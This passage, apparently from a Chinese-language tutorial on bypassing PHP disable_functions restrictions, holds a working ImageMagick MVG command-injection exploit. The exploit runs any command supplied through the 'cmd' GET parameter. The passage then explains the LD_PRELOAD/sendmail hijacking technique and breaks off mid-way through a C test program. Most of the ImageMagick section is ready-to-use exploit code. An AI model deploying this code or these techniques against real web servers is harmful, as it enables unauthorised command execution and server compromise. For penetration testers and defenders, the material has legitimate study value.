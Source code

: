 ![Alt text](8.png)
#### 2.ImageMagick漏洞绕过disable_function
```php
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "\n";

$command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd'];
if ($command == '') {
    $command = 'id';
}

$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;

file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
?>
```
#### 因为没有安装　Imagick 所以没有测试
## 3.利用环境变量LD_PRELOAD来绕过php disable_function执行系统命令
#### php的mail函数在执行过程中会默认调用系统程序/usr/sbin/sendmail，如果我们能劫持sendmail程序，再用mail函数来触发就能实现我们的目的
#### LD_PRELOAD是Linux系统的下一个有趣的环境变量：“它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。”
#### 测试
```c
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv){
char passwd[] = "password";
if (argc < 2) {
        printf("usage: %s <password>/n", argv[0]);
        return 0;
}
```